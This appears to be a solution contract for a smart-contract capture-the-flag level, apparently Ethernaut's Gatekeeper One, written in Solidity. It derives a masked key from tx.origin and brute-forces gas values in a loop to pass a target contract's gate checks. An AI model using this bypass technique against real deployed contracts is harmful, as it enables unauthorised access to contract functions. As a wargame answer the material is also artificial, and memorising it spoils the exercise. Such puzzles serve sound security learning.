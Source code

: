 ```solidity
contract GatePassOne {
    event Entered(bool success);

    function enterGate(address _gateAddr, uint256 _gas) public returns (bool) {
        bytes8 key = bytes8(uint64(tx.origin)) & 0xffffffff0000ffff;
        
        bool succeeded = false;

        for (uint i = _gas - 64; i < _gas + 64; i++) {
          (bool success, ) = address(_gateAddr).call.gas(i)(abi.encodeWithSignature("enter(bytes8)", key));
          if (success) {
            succeeded = success;
            break;
          }
        }

        emit Entered(succeeded);

        return succeeded;
    }
}
```